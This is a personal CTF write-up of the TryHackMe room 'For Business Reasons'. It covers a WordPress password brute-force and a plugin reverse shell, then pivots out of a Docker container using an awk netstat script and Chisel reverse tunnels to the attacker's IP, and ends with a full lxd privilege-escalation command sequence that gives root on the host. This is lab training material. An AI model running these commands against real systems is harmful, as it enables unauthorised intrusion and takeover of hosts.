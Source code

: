 ```yaml
---
layout: post
title: CTF Log - For Business Reasons {THM}
description: A log of how I did the TryHackMe room For Business Reasons by MsMouse
summary: A log of the THM room "For Business Reasons"
tags: ctf log
minute: 9
---
```

<br/>

> {{ page.description }}

<br/>

# For Business Reasons
## Wordpress Login Bruteforce & Plugin Reverse Shell
Scanned and received responses from the following ports: 22, 80, 2377, 7946. Only port 80 registered as open. 

Found a Wordpress blog and noticed that the default/template posts were made by a user named `sysadmin.` So, I chucked a `rockyou.txt` bruteforce against that username while I further enumerated the site. 

Soon after, I landed a valid password. 

I chucked a `rockyou.txt` bruteforce against the username `sysadmin` while I researched that vulnerability and landed a valid password.

Edited an existing plugin to include a PHP reverse shell and enabled the plugin; got a shell as `www-data` in a Docker container.

## Proxying Through Docker Container
The Docker container I landed in was lacking a lot core networking utils like `ping`, `ip`, `ifconfig`, etc. After poking around for a while I stumbled upon [this](https://staaldraad.github.io/2017/12/20/netstat-without-netstat/) fantastic blog post by [Staaldraad](https://staaldraad.github.io/). In it they detail some research into parsing data from the `/proc/net/tcp` pseudofile to recreate the `netstat` and `id` commands. 

I use their `awk` script:

```bash
awk 'function hextodec(str,ret,n,i,k,c){
    ret = 0
    n = length(str)
    for (i = 1; i <= n; i++) {
        c = tolower(substr(str, i, 1))
        k = index("123456789abcdef", c)
        ret = ret * 16 + k
    }
    return ret
}
function getIP(str,ret){
    ret=hextodec(substr(str,index(str,":")-2,2)); 
    for (i=5; i>0; i-=2) {
        ret = ret"."hextodec(substr(str,i,2))
    }
    ret = ret":"hextodec(substr(str,index(str,":")+1,4))
    return ret
} 
NR > 1 {{if(NR==2)print "Local - Remote";local=getIP($2);remote=getIP($3)}{print local" - "remote}}' /proc/net/tcp
```

to see the current open TCP connections. 

![Screenshot of aforementioned awk script and output.](/assets/media/forbusinessreasons/proc_net_tcp_netstat.png)

I noticed a connection between `172.18.0.3` and `10.13.1.225`. Since the latter is my attack machine's IP address I conclude that the former IP address belongs to the container that I'm in. From there I correctly assume that the gateway address of that subnet, `172.18.0.1`, belongs to the machine hosting the Docker container; I use the following to scan for certain ports on that address. 
```bash
curl -m 1 --include -v localhost:$x
```

- `-m 1` Setting a max timeout time for the curl attempt, prevents me from getting stuck on an unresponsive port, which would require me to `ctrl+c` and thusly break my non-pty shell.

After identifying an open port 22 on the host machine, I download [Chisel](https://github.com/jpillora/chisel) onto the docker container and launch the client command: 

```bash

$ ./chisel client 10.13.1.225:1234 R:2002:172.168.0.1:22
2021/09/13 21:34:59 client: Connecting to ws://10.13.1.225:1234
2021/09/13 21:35:00 client: Connected (Latency 184.290108ms)
```

And on my attacker machine, the server command:

```bash
┌──(kali㉿kali)-[/opt/chisel/binaries]
└─$ ./chisel_1.7.6_linux_amd64 server -p 1234 --reverse

2021/09/13 16:32:53 server: Reverse tunnelling enabled
2021/09/13 16:32:53 server: Fingerprint gOtbf9dlNJ2ecdo44g20iAMt+SSp8NkeAfp5CWKusaU=
2021/09/13 16:32:53 server: Listening on http://0.0.0.0:1234
```

I'm then able to ssh against my local machine and have my request proxied through to the victim host machine. The credentials for `sysadmin` are reused from the Wordpress blog.

## lxc Privileged, Recursive Container Filesystem Privesc
The privilege escalation technique is simple. My user, `sysadmin`, belongs to the `lxd` group which by default allows that user to use `lxc` to escalate privileges. 

I create an [Alpine](https://hub.docker.com/_/alpine) container on my attacker machine using [Distrobuilder](https://github.com/lxc/distrobuilder) then download the resulting files onto the victim machine. 

I then execute the following sequence of commands (Learned from [Hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)) to create a privileged docker container whose filesystem contains a recursive mount of the host machine's filesystem. This allows me to enter the docker container as `root` and act upon the host filesystem as `root`.

```bash
sysadmin@ubuntu:~$ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
Image imported with fingerprint: 02aa7f299f733b42a726c44d6505645cf23e67ebcb31fda3ec24e8c2d4c0497b             
sysadmin@ubuntu:~$ lxc init alpine privesc -c security.privileged=true             
Creating privesc
sysadmin@ubuntu:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc
sysadmin@ubuntu:~$ lxc start privesc
sysadmin@ubuntu:~$ lxc exec privesc /bin/sh
~ # id
uid=0(root) gid=0(root)
```